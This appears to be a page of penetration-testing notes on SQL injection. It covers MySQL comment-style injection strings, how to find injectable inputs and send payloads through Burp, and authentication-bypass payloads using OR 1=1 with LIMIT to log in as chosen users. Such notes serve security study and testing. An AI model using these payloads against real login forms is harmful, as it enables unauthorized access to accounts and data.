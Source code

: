 ## Language Type

| Type | Example                        | Usage    |
| ---- | ------------------------------ | -------- |
| DML  | INSERT, DELETE, UPDATE, SELECT | frequent |
| DDL  | CREATE, DROP, ALTER, TRUNCATE  | rare     |

## MySQL Comment

| Style      | Comment                                                                             |
| ---------- | ----------------------------------------------------------------------------------- |
| Hash style | SELECT \* FROM tbl\_emp WHERE username = '' OR 1=1;#' AND password = 'anything';    |
| SQL style  | SELECT \* FROM tbl\_emp WHERE username = '' OR 1=1;-- -' AND password = 'anything'; |

```
            | SELECT * FROM tbl_emp WHERE username = '' OR 1=1;--+-' AND password = 'anything';
```

NULL byte style | SELECT \* FROM tbl\_emp WHERE username = '' OR 1=1;%00' AND password = 'anything' C style | `SELECT * FROM tbl_emp WHERE username = '' OR 1=1;/*' AND password = '*/'';`

## Identify the entry point

* Find a page where user can interact with underlying database via his input.
* For example, searching / lockup a record using job\_id, user registration, profile update, deleting an entry
  * Guess the structure of underlying database query (`SELECT` / `INSERT` / `UPDATE` / `DELETE`)
* While testing, `URL encode` special characters (i.e specially `blank space`) for GET and POST.
* `Semicolon` - is used to end the query although it is `optional` in the payload.
* Sometimes client side `JavaScript` removes the single quote while supplying through browser. So best practice to deliver the payload through burp.

## Bypass Authentication

The attacker can choose any field - `username` or `password` or `both` in order to alter the `intention` of the SQL query made by developer.

* Usually `password` field is not vulnerable as it is not used by the underlying query.
* `username` field is used by the query through `WHERE` statement in order to fetch the `hash`.
* Application converts the user supplied `password` into the `hash` and then compare these two `hashes`.

> - LIMIT {n}, {m}
>   * n = 0 means select `first` row
>   * m = 4 means fetch maximum `four` rows
> - Explicitly specifying through `LIMIT` and `OFFSET` keyword: LIMIT {m} OFFSET {n}

```
[+] general query:
SELECT * FROM tbl_emp WHERE username = '' AND password = '';

[+] login as the first user of the database table. mostly 'admin' user is present in the first row.
payload (username) = ' OR 1=1 LIMIT 0,1;#

[+] login as the third user of the database table
payload (username) = anything' OR 1=1 LIMIT 2,1;#

[+] login as 'offsec' user
payload (username) = offsec' OR 1=1 LIMIT 0,1;#
```
